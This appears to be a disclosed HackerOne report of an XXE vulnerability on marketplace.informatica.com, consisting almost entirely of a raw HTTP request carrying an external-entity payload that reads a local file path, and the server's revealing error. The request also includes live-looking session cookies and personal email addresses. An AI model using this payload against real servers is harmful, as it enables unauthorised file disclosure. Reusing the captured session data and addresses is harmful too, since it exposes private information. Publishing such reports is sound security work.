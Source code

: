 # [marketplace.informatica.com] - XXE

## Report Details
- **Report ID**: 106802
- **URL**: https://hackerone.com/reports/106802
- **State**: Closed
- **Severity**: high
- **Submitted**: 2015-12-24T19:26:58.052Z
- **Disclosed**: 2016-12-09T08:06:08.663Z

## Reporter
- **Username**: yarbabin
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: informatica

## Vulnerability Information
Request: 
`POST /__services/v2/rest/wall/new/count HTTP/1.1`
`Host: marketplace.informatica.com`
`Connection: keep-alive`
`Content-Length: 249`
`Accept: application/json, text/javascript, */*`
`X-J-Token: no-user`
`X-Requested-With: XMLHttpRequest`
`User-Agent: Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/47.0.2526.106 Safari/537.36`
`Origin: https://marketplace.informatica.com`
`Referer: https://marketplace.informatica.com/profile-status-list.jspa?view=wallentry&username=jan-hendrik.huehne@bearingpoint.com`
`Accept-Encoding: gzip, deflate`
`Accept-Language: ru-RU,ru;q=0.8,en-US;q=0.6,en;q=0.4`
`Cookie: jive.server.info="serverName=marketplace.informatica.com:serverPort=443:contextPath=:localName=localhost.localdomain:localPort=9001:localAddr=127.0.0.1"; BIGipServermarketplace-new-int-Pool=958464266.20480.0000; __cdrop=.9IJG7.; __csess=1450347852471.CBUFVZ.; c08ea716-2192-4af0-b0be-eb4589f8bd3c=%7B%22parent_id%22%3A%22%22%2C%22id%22%3A%22kKfiDh-GHos%22%2C%22wom%22%3Afalse%2C%22fb_source%22%3A%22%22%2C%22url_tag%22%3A%22NOMTAG%22%7D; do_mkto_call=true; LastMRH_Session=d922d108; LiveBall=uid=9700856&uky=8BZWQCQN&rid=10286008; MRHSession=4c2087c52f486b2d8fe80461d922d108; s_dmdbase=rsp%3Dmatch%26cData%3D25961098%253ACjsc%2520Mastel%253AAutomotive%253AServices%253A1%2520to%252049%253A0-49%2520milli%253ASMB%253AAutomotive%26cDataCustom%3D%255Bn%2Fa%255D%253A%255Bn%2Fa%255D%253A%255Bn%2Fa%255D%253A%255Bn%2Fa%255D%253AMoscow%253Anull%253ARU%253A7514%26cDataCustom2%3Dnull%253A%255Bn%2Fa%255D%253A%255Bn%2Fa%255D%253A%255Bn%2Fa%255D%253A%255Bn%2Fa%255D%253A%255Bn%2Fa%255D%253A%255Bn%2Fa%255D%253A%255Bn%2Fa%255D%26sentAA%3DT; timeEnd_cookie=1450346443718; wm-ueug=%22yarbabin@gmail.com%22; wm-ag-d={%22st%22:1450435346802%2C%22sc%22:1%2C%22v%22:0%2C%22et%22:1450359167387%2C%22u%22:0}; s_sess=%20s_visitid%3D1450189337951%3B%20v16%3D%3B%20v32%3D%3B%20s_ppvl%3Dwww%25253Aus%25253Aen%25253Aproducts%25253Adata-integration%25253Areal-time-integration%25253Arulepoint-complex-event-processing%252C58%252C58%252C1019%252C1858%252C1019%252C1920%252C1080%252C1%252CP%3B%20s_ppv%3Dwww%25253Aus%25253Aen%25253Aproducts%25253Adata-integration%25253Areal-time-integration%25253Arulepoint-complex-event-processing%252C96%252C46%252C2119%252C1858%252C1019%252C1920%252C1080%252C1%252CP%3B; AMCV_C0B11CFE5330AAFD0A490D45%40AdobeOrg=793872103%7CMCIDTS%7C16794%7CMCMID%7C91737586653844139563863898912439590649%7CMCAID%7CNONE%7CMCAAMLH-1451408130%7C6%7CMCAAMB-1451571056%7Chmk_Lq6TPIBMW925SPhw3Q; JSESSIONID=67E6B255C5D2DAFF90610E94CB8B7D2A.; _ga=GA1.2.1092629952.1450189330; mkt_cookie=known; mbox=PC#1450189325935-186730.26_07#1452186131|check#true#1450976591|session#1450976530070-819656#1450978391; s_vnum=1452773966363%26vn%3D12; s_ppv=-%2C100%2C63%2C1319; __utmt=1; jive.recentHistory.-1=332c3136363137383b31342c323334353b31342c323334373b312c3130343130323b; s_cc=true; gpv_p8=Search; s_nr=1450984732287-Repeat; s_invisit=true; s_sq=informaticamarketplace%252Cinformaticamarketplace2%252Cinformaticacommunity%3D%2526pid%253Dinformatica%252520marketplace%252520community%2526pidt%253D1%2526oid%253Djavascript%25253A%25253B%2526ot%253DA; __utma=151370917.193365317.1450183778.1450970821.1450981714.11; __utmb=151370917.11.10.1450981714; __utmc=151370917; __utmz=151370917.1450981714.11.10.utmcsr=google|utmccn=(organic)|utmcmd=organic|utmctr=(not%20provided); _mkto_trk=id:189-ZHZ-794&token:_mch-informatica.com-1450183777729-16344`
`Content-Type: application/xml;charset=UTF-8`

`<?xml version="1.0" encoding="UTF-8" standalone="no"?>`
`<!DOCTYPE foo [  `
`<!ELEMENT foo ANY >`
`<!ENTITY xxe SYSTEM "file:///etc/passwd1" >]>`
`<count>`
`<tabName>profile</tabName>`
`<widgetID>&xxe;</widgetID>`
`<filterType>Only</filterType>`
`</count>`

Response:
`JAXBException occurred : /etc/passwd1 (No such file or directory). /etc/passwd1 (No such file or directory). `

## Attachments
No attachments
